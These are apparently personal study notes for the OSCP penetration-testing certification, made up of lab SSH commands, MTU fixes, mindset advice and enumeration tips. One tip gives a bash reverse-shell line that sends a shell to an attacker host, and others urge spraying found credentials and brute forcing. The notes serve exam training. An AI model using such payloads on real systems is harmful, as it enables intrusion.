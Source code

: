 # 🎯 OSCP


```
ssh -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" learner@192.168.50.52
```


[_Try Harder_](https://www.offsec.com/offsec/what-it-means-to-try-harder/) mindset. To better understand this mindset, let's quickly consider two potential perspectives in a moment of "failure."

1. If my attack or defense fails, it represents a truth about my current skills/processes/configurations/approach as much as it is a truth about the system.
2. If my attack or defense fails, this allows me to learn something new, change my approach, and do something differently.

Do exercise before or after study!

---------

**MOST IMP**

```
sudo ip l s dev tun0 mtu 1300
```

https://github.com/saisathvik1/oscp-cheatsheet
Best cheat sheet!

---

**Did I scan all ports? Did I search for exploits on every port?**

- When something requires you to create a script it's probably a rabbit hole
- The answer is infront of you just keep calm be cold blooded
- If you see something unusual (like redis port or nfs port) it is there for a reason
- Searchsploit everything, you might get surprised with what you find. (Including linux kernels too)
- After nmap scan results.. don't jump to start hunting for application/service exploit/poc. Read every line of output slowly. 🤞
- Time management is one of the most important thing about the oscp use your time wisely
- Be mobile ,you may separate your notes into smaller parts ,when you find creds spray them everywhere ,take notes of everything ,I strongly recommend you to take screenshots of every command you ran ,If you stuck just go take a walk or change your target
- cme is more useful than you think ,use cme modules to test vulnerabilities in AD chain ,It might tell you that there is another way to exploit ADDC

------

1. always check http and https both for same site
2. check local ports after getting initial shell
3. **payload all the things** have it ALL!
4. do brute force if nothing works
5. if SSH stuck, try to lower MTU and it will works `sudo ifconfig tun0 mtu 1200`
6. whenever you run exploit and
	- it gives error when you provide required field, then look at code because you need to change input to take as binary with help of `b(SNIP)`
	- if its **RCE** and still don't work then use ping first with exploit. Example, `ping -c 1 $tun0_IP` and if it works then start nc and take shell with `'/bin/bash -c "/bin/bash -i &> /dev/tp/kali_IP/443 0>&1"'`

Try https://unix.stackexchange.com/questions/722954/ssh-stuck-at-expecting-ssh2-msg-kex-ecdh-reply or https://serverfault.com/questions/210408/cannot-ssh-debug1-expecting-ssh2-msg-kex-dh-gex-reply